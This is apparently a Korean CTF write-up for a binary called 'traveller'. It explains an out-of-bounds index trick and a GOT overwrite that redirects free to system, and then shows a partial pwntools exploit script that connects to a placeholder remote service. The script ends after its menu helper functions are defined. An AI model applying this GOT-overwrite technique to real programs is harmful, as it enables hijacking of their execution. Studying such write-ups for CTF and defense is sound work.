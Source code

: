 - trips 구조체의 크기만큼 증가하여 주소 번지를 이동하기 때문에 우리는 해당 `(0x40df30-0x6020c0)/8` , -262194 를 choice 변수의 값으로 사용하여 `0x401f30` 주소 로 점프한다.
- 그후에 `free@plt+6` 주소에 참조가 가능하여 해당 영역에 우리는 system@plt+6 주소를 덮어써 free@got가 호출될 때 해당 system@plt+6부분이 실행된다.



## exploit code

```python
from pwn import *

if __name__ == '__main__':        
    # context.log_level = 'debug'
    # context.arch = 'amd64'

    LOCAL = 0
    DEBUG = 0

    s       = lambda data               :p.send(str(data))       
    sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
    sl      = lambda data               :p.sendline(str(data)) 
    sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
    r       = lambda num=4096           :p.recv(num)
    rn      = lambda                    :p.recvline()
    ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
    irt     = lambda                    :p.interactive()

    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name, addr :log.success('{} : {:#x}'.format(name, addr))

    if LOCAL:
        #p = process('./pwn',env={'LD_PRELOAD':'./libc-2.23.so'})
        p = process('./traveller')
        l = ELF('./libc-2.23.so')
        # libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p = remote('_._._._', 8000)
        # e = ELF('____')
        # libc = ELF('./libc-2.27.so')
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

    def Add(num, des):
        print r()
        sl(str(1))
        print ru('\n')
        print ru('\n')
        sl(num)
        print r()
        sl(des)

    def Change(num, des):
        print r()
        sl(str(2))
        print r()
        sl(num)
        pause()
        sl(des)

    def Delete(num):
        print r()
        sl(str(3))
        sl(num)
```
